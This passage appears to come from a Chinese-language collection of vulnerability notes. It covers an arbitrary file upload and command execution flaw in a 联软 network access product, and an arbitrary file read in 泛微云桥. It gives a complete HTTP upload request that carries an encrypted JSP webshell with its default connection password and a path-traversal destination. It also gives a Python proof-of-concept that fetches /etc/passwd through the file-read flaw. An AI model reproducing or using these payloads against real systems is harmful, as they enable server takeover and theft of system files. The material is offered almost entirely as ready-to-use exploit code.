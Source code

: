   

参考：[https://m.threatbook.cn/detail/2889](https://m.threatbook.cn/detail/2889)

7.联软准入漏洞
========

  

漏洞详情：

  

任意文件上传漏洞，存在于用户自检报告上传时，后台使用黑名单机制对上传的文件进行过滤和限制，由于当前黑名单机制存在缺陷，文件过滤机制可以被绕过，导致存在文件上传漏洞；利用该漏洞可以获取webshell权限。（猜测利用黑名单的其他后缀名绕过）

命令执行漏洞，存在于后台资源读取过程中，对于自动提交的用户可控参数没有进行安全检查，可以通过构造特殊参数的数据包，后台在执行过程中直接执行了提交数据包中的命令参数，导致命令执行漏洞；该漏洞能够以当前运行的中间件用户权限执行系统命令，根据中间件用户权限不同，可以进行添加系统账户，使用反弹shell等操作。

  

```
POST /uai/download/uploadfileToPath.htm HTTP/1.1
HOST: xxxxx

-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; 
Content-Type: image/png
 
<%@page import="java.util.\*,javax.crypto.\*,javax.crypto.spec.\*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte \[\]b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/\*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond\*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
 
-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; 
 
../webapps/notifymsg/devreport/
-----------------------------570xxxxxxxxx6025274xxxxxxxx1--
```

[https://mp.weixin.qq.com/s/-cu0zc8eqs4T\_MwpaR0w6Q](https://mp.weixin.qq.com/s/-cu0zc8eqs4T_MwpaR0w6Q) 还有其他方法。

8.泛微云桥任意文件读取
============

```
\# 检测代码，关键片段
def poc(u,\*\*kw):
    if kw:
        file = kw\['file'\]
    else:
        file = '/etc/passwd'
    print("\[\*\] Checking %s"%(u))
    uri = "/wxjsapi/saveYZJFile?file%(file)
    url = u + uri
    try:
        res = requests.get(url,verify=False,timeout=timeout)
    except Exception as e:
        print("\[-\] Error %s , %s"%(u,e))
        return 
    try:
        data = json.loads(res.content)
        res = requests.get(u+"/file/fileNoLogin/%s"%(data\['id'\]),verify=False,timeout=timeout)
        print("\[\*\] %s is vulnerabile!" %(u))
        print(res.text)
        log("\[\*\] %s is vulnerabile!" %(u))
        log(res.text)
```